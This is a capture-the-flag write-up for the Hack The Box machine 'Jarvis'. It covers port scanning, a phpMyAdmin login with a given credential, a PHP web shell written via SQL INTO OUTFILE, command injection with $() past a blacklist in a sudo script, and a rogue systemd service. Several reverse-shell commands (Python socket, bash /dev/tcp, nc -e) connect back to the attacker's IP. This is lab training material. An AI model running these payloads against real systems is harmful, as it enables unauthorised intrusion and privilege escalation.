# Jarvis (`10.10.10.143`)

## Summary

## `/etc/hosts`

I begin by adding an entry in `/etc/hosts` to resolve `jarvis.htb` to `10.10.10.143`. I use this later in my report.

## Enumeration

I start a portscan of all ports (`-p-`), running OS, service version, and vulnerability scripts (`-A`), skipping host discovery (`-Pn`), with verbose logging (`-v`) and output to a file (`-oN`).

```bash
$ nmap -A -v -p- -Pn -oN allports jarvis.htb
# Nmap 7.80 scan initiated Fri Nov 13 05:13:38 2020 as: nmap -A -v -p- -Pn -oA allports jarvis.htb
Nmap scan report for jarvis.htb (10.10.10.143)
Host is up (0.040s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
64999/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=11/13%OT=22%CT=1%CU=44621%PV=Y%DS=2%DC=T%G=Y%TM=5FAE6A
OS:A6%P=x86_64-pc-linux-gnu)SEQ(SP=FD%GCD=1%ISR=105%TI=Z%CI=Z%TS=8)OPS(O1=M
OS:54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%
OS:O6=M54DST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%
OS:DF=Y%T=40%W=7210%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=
OS:0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF
OS:=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=
OS:%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%
OS:IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 0.002 days (since Fri Nov 13 05:11:35 2020)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=253 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT      ADDRESS
1   39.52 ms 10.10.14.1
2   39.57 ms jarvis.htb (10.10.10.143)

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov 13 05:14:46 2020 -- 1 IP address (1 host up) scanned in 68.62 seconds
```



User is `DBadmin`







`DBadmin:imissyou` is the credential pair.



## Reverse Shell

I follow [this guide](https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/) to get command execution, by creating a new database and then running the following SQL statement:

```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/cmd.php" 
```






I now navigate to `http://jarvis.htb/cmd.php?cmd=whoami` and see:



I start a new `nc` listener, and go to the following URL: `http://jarvis.htb/cmd.php?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.14.27%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27`.



## Upgrading Shell



## Privilege Escalation to `pepper`



This is the exploitable part of the script:

```python
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

`$()` command substitution isn't blacklisted.

```bash
www-data@jarvis:/dev/shm$ echo "bash -i >&/dev/tcp/10.10.14.27/443 0>&1" > /dev/shm/shell.sh
www-data@jarvis:/dev/shm$ chmod +x /dev/shm/shell.sh
```

I start another `nc` listener on port 443.

```bash
www-data@jarvis:/dev/shm$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/
                                @ironhackers.es

***********************************************

Enter an IP: $(bash /dev/shm/shell.sh)
```



## Root Privesc



```bash
$ cat shell.service
[Service]
Type=notify
ExecStart=/bin/bash -c 'nc -e /bin/bash 10.10.14.27 443'
KillMode=process
Restart=on-failure
RestartSec=42s

[Install]
WantedBy=multi-user.target

$ systemctl link /dev/shm/shell.service
$ systemctl start shell
```

